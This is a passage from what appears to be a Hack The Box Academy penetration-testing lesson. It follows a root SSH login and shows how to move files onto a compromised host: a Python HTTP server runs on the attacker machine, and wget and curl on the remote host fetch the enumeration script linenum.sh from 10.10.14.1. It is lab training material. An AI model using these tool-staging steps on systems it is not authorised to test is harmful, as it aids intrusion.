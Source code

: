As we can see, we can now ssh in as the user `root`. The [Linux Privilege Escalation](https://academy.hackthebox.com/module/details/51) and the [Windows Privilege Escalation](https://academy.hackthebox.com/module/details/67) modules go into more details on how to use each of these methods for Privilege Escalation, and many others as well.



## Transferring Files

### Using wget

One method is running a [Python HTTP server](https://developer.mozilla.org/en-US/docs/Learn/Common\_questions/set\_up\_a\_local\_testing\_server) on our machine and then using `wget` or `cURL` to download the file on the remote host.

\
First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:

```shell-session
TomasFerreira@htb[/htb]$ cd /tmp
TomasFerreira@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:

```shell-session
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

Note that we used our IP `10.10.14.1` and the port our Python server runs on `8000`. If the remote server does not have `wget`, we can use `cURL` to download the file:

```shell-session
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

Note that we used the `-o` flag to specify the output file name.



### Using SCP

Another method to transfer files would be using `scp`, granted we have obtained ssh user credentials on the remote host. We can do so as follows:
